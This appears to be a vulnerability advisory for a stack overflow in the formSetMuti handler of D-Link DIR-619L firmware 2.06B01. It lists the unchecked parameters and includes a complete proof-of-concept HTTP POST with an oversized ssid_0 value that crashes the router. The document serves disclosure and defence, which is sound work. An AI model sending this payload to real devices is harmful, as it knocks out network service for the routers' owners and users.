

# D-Link Vulnerability

Vendor:D-Link

Product:DIR619L

Version:2.06B01

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)


## Vulnerability description

We found an stack overflow vulnerability in D-Link router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `boa` binary:

In the router's `formSetMuti` function, `rsPassword1_%d、wpaPSK_%d、wep128Key4_%d、wep128Key3_%d、wep128Key2_%d、wep128Key1_%d、wep64Key4_%d、wep64Key3_%d、wep64Key2_%d、wep64Key1_%d、ssid_%d` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `rsPassword1_%d、wpaPSK_%d、wep128Key4_%d、wep128Key3_%d、wep128Key2_%d、wep128Key1_%d、wep64Key4_%d、wep64Key3_%d、wep64Key2_%d、wep64Key1_%d、ssid_%d` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter `rsPassword1_%d、wpaPSK_%d、wep128Key4_%d、wep128Key3_%d、wep128Key2_%d、wep128Key1_%d、wep64Key4_%d、wep64Key3_%d、wep64Key2_%d、wep64Key1_%d、ssid_%d` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `ssid_%d` as **aaaaa......,** , and the router will crash, such as:

```http
POST /goform/formSetMuti HTTP/1.1
Host: 192.168.100.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 3114
Origin: http://192.168.100.1
Connection: close
Referer: http://192.168.100.1/Advanced/Multiple_SSID.asp
Upgrade-Insecure-Requests: 1

ACTION_POST=final&wlanDisabled_0=1&wlanMode_0=0&ssid_0=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&encrypt_0=0&authType_0=0&wep_0=1&wepKeyType_0=1&wep64Key1_0=0000000000&wep64Key2_0=0000000000&wep64Key3_0=0000000000&wep64Key4_0=0000000000&wep128Key1_0=00000000000000000000000000&wep128Key2_0=00000000000000000000000000&wep128Key3_0=00000000000000000000000000&wep128Key4_0=00000000000000000000000000&wepDefaultKey_0=0&wpaCipher_0=3&wpa2Cipher_0=3&wpaAuth_0=2&wpaPSKFormat_0=0&wpaPSK_0=&enable1X_0=0&rsIpAddr1_0=0.0.0.0&rsPort1_0=1812&rsPassword1_0=&wlanDisabled_1=1&wlanMode_1=0&ssid_1=dlink-va1&encrypt_1=0&authType_1=0&wep_1=1&wepKeyType_1=1&wep64Key1_1=0000000000&wep64Key2_1=0000000000&wep64Key3_1=0000000000&wep64Key4_1=0000000000&wep128Key1_1=00000000000000000000000000&wep128Key2_1=00000000000000000000000000&wep128Key3_1=00000000000000000000000000&wep128Key4_1=00000000000000000000000000&wepDefaultKey_1=0&wpaCipher_1=3&wpa2Cipher_1=3&wpaAuth_1=2&wpaPSKFormat_1=0&wpaPSK_1=&enable1X_1=0&rsIpAddr1_1=0.0.0.0&rsPort1_1=1812&rsPassword1_1=&wlanDisabled_2=1&wlanMode_2=0&ssid_2=dlink-va2&encrypt_2=0&authType_2=0&wep_2=1&wepKeyType_2=1&wep64Key1_2=0000000000&wep64Key2_2=0000000000&wep64Key3_2=0000000000&wep64Key4_2=0000000000&wep128Key1_2=00000000000000000000000000&wep128Key2_2=00000000000000000000000000&wep128Key3_2=00000000000000000000000000&wep128Key4_2=00000000000000000000000000&wepDefaultKey_2=0&wpaCipher_2=3&wpa2Cipher_2=3&wpaAuth_2=2&wpaPSKFormat_2=0&wpaPSK_2=&enable1X_2=0&rsIpAddr1_2=0.0.0.0&rsPort1_2=1812&rsPassword1_2=&settingsChanged=1
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
